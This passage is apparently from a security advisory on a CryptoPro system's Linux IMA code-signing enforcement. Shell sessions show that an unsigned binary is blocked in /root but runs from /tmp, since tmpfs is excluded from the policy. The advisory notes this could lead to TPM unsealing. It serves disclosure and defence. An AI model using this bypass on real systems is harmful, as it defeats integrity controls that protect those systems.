exec switch_root $ROOT_MOUNTPOINT /sbin/init
```
**`init.sh` - `switch_root` Call**

From a CLI perspective of a running CryptoPro environment, the IMA policy and enforcement boundaries were examined. A file that is properly signed by the IMA policy will have an extended `security.ima` attribute which carries the signing certificate, used to validate the binary via the Kernel IMA policy extension. A binary that is successfully signed is allowed to execute:

```
bash-5.0# getfattr -m - -d /bin/mount
getfattr -m - -d /bin/mount
getfattr: Removing leading '/' from absolute path names
# file: bin/mount
security.ima=0sAwIEaj6A6gIAAhYHr99xsD3HW7iEwkIO3GF3yWL2aFqsjurO2hNI7Zpahh761BKaTz+UB9KhdXMLxahl/No4Oi0PZX6UWPI+AI7ww83yNLJI85UQyyP+O/NaYfQGZRGcw42aoVn2HRP3cqKeNJrEGOW0wwK8d8qOdFaIIT8INMp4EJEd8Nu1t
C3WhnaYpNkyhjuf+UQp277BtPsnxaV+M/myykjK/lD+ogL8f/SWpSt7sw1c/FSbzwuk5LEr/NGxAh1gYaaJ7YZdAeG90+N8d243SOI6NLxaqsBPc/mBBvFVKdnckC3IQDbCvH9SnpAq8lqJBojhCITnXSyy/+onrpKVmOnEsUVaHyfEIZuswAkWdzj5HZFrveCYZ
ABwG8EzDgv8tsDfTV30cnM4mtHM50kuLSujCGfqozucfSWcqoKG0sA/9X8hby9luaKb8YFP66MWf2f0GCvLlmow6LxU+hPPQ0z1vSXHdyQUakwcz4N/RMgGCa2qHvZYy60wgLNOZdB9l1+v8dFwwDiLr9vcaTTxhDe6HU4k1MyOfd6WEFYBey12CXNPmFcrXcs8c
eKA1PNMgfqb6ZLSGYvMCD8WoACgKjDLqi13OhNKqhRUxBIFTbDMypOoZBIwgCOc4k1B78Jmf/sO+ziM4jjvJF7/6jZ9r02OvLTLBVxfP9NKhmzqvryRJ2letEM=

bash-5.0# /bin/mount --help
/bin/mount --help

Usage:
 mount [-lhV]
 mount -a [options]
 mount [options] [--source] <source> | [--target] <directory>
 mount [options] <source> <directory>
 mount <operation> <mountpoint> [<target>]

Mount a filesystem.
```
**Successful Exe with IMA Policy**

Moving the `mount` command to the file system `/` directory, then strips the IMA extended attribute and does not allow the file to be executed:
```
bash-5.0# pwd
pwd
/root
bash-5.0# getfattr -m - -d ./mount
getfattr -m - -d ./mount
bash-5.0# ./mount
./mount
bash: ./mount: Permission denied
```
**Failed Exe via IMA Policy**

However, moving this file to the `/tmp` directory then bypasses IMA enforcement as `TMPFS` environments were excluded from policy enforcement:
```
bash-5.0# pwd
pwd
/tmp
bash-5.0# getfattr -m - -d ./mount
getfattr -m - -d ./mount
bash-5.0# ./mount --help
./mount --help

Usage:
 mount [-lhV]
 mount -a [options]
 mount [options] [--source] <source> | [--target] <directory>
 mount [options] <source> <directory>
 mount <operation> <mountpoint> [<target>]
```
**Successful IMA Bypass**

As a result, an attacker would be able to obtain code execution of any unsigned binary from simply copying the content to a `TMPFS` environment. This would allow for unsealing the TPM or conducting further attacks against the environment. Exploitation of this attack surface is demonstrated via the **STACK Attack** from the reference section of this advisory.